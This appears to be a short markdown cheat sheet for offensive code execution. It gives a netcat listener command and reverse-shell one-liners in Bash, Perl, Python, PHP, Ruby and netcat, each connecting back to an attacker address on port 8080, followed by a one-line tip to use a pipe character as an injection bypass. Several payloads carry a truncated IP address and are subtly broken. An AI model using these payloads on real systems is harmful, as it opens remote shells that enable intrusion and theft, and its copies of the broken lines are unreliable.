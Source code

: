 # Code Execution

## Get a reverse-shell
### Attacker Listening
```cmd
nc -vv -l -p 8080
```

### Payloads
- BASH
```BASH
bash -i >& /dev/tcp/10.20.14.203/8080 0>&1
```
- PERL
```PERL
perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
- Python
```Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- PHP
```PHP
php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- Ruby 
```Ruby
ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
- Netcat 
```cmd
nc -e /bin/sh 10.20.14 8080
```

## Bypass
- Use ```|```
